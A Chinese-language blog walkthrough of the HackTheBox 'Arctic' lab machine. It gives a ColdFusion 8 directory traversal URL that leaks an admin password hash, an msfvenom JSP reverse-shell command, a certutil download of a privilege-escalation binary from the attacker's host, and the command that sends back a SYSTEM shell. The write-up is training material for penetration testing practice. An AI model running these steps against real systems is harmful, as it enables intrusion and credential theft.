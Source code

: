 ```yaml
---
title: Hackthebox::Arctic walkthrough
date: 2021/12/28
categories: 渗透测试
tags: [渗透测试,walkthrough]
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
---
```




- **Arctic是hackthebox上一台简单难度的windows靶机**

# 信息收集

- 首先使用nmap进行端口扫描

![image-20211227235510440](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235510440.png)

- 再使用nmap进行简单的漏洞扫描，但是这次漏洞扫描失败了，貌似是连接问题

![image-20211227235600047](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235600047.png)

- 通过两次nmap扫描，我们得到了有用的信息：

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

- 浏览器打开靶机8500端口查看

![image-20211228000308471](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000308471.png)

- 点击CFIDE目录进行进一步的枚举

![image-20211228000324604](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000324604.png)

- 点击administrator文件，发现是一个登录窗口

![image-20211228000552606](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000552606.png)

- 这个页面有关**ColdFusion 8**， 我们不知道这是什么但肯定是一个系统，百度一下，发现答案都已经快出来了

![image-20211228001208827](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001208827.png)

- 使用searchsploit查看这个是否存在漏洞

![image-20211228001306056](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001306056.png)

- 我们发现这个存在可以利用的漏洞，貌似有文件上传和目录遍历漏洞，再使用msf看看是否可以直接利用

![image-20211228002139201](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228002139201.png)

- 都无法利用，可能是因为网络问题，接着参考别人的walkthrough，发现千篇一律的使用目录遍历漏洞，好吧我们也使用这个
- 之前我们发现网站登录页面使用了ColdFusion 8，在这之前加上adobe，然后在 exploitdb 上面查看漏洞

![image-20211228010052879](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010052879.png)

- 按照上面提到的方式，进入 `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 页面，我们发现了密码的哈希值： `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` 

![image-20211228010532393](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010532393.png)

- 使用[这个网站](https://crackstation.net/)解哈希，得到密码 happyday

![image-20211228010752709](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010752709.png)

- 使用刚才的密码以管理员的身份登录后台

![image-20211228011144857](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228011144857.png)

- 创建反向shell 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=5555 > shell.jsp
```

![image-20211228014733671](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228014733671.png)

- 在靶机后台新建一个任务

![image-20211228015729922](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228015729922.png)

- 注意里面的 File填 `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

![image-20211228020036038](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228020036038.png)

- 然后我们可以看见任务已经被创建了，然后点击运行

![image-20211228021129490](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021129490.png)

- 回到 http://10.129.1.58:8500/CFIDE/ 刷新后就能看到我们上传的脚本shell.jsp 了

![image-20211228021153641](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021153641.png)

- 本地nc监听端口，我们收到了shell

![image-20211228023926873](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228023926873.png)

- 接下来我们需要提权，使用权限提升脚本
- 使用脚本 chimichurri.exe，并在windows靶机中接收脚本

```
certutil -f -urlcache http://10.10.14.31:8000/Chimichurri.exe chimichurri.exe
```

![image-20211228025330194](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228025330194.png)

- 本地nc监听端口6666，靶机上 使用命令 

```
chimichurri.exe 10.10.14.31 6666
```

![image-20211228032510841](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032510841.png)

- 这时候本地nc就能够收到shell了

![image-20211228032556501](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032556501.png)

- 得到管理员权限，并且找到flag

![image-20211228032754084](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032754084.png)

